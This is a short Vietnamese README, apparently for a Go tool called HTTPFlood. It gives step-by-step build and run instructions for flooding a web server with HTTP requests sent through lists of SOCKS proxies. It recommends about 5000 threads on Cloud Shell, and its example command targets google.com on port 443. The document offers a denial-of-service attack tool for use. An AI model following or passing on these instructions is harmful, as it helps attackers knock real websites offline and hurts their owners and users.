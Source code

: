 # Cách dùng

Tải và cài đặt Golang, sau đó cài thư viện github.com/gamexg/proxyclient

Sau đó build file bằng cách chạy go build HTTPFlood.go và chuẩn bị một list SOCKS5 bỏ vào 1 file tên là socks5.txt

Sau đó chạy ulimit -n 999999

chmod 777 *

Và cuối cùng là ./HTTPFlood HOST PORT THREAD (Nếu trên Cloud Shell thì tầm 5000 là ok) PATH SOCKS_VERSION (socks4/socks5)

VD: ./HTTPFlood google.com 443 5000 / socks4

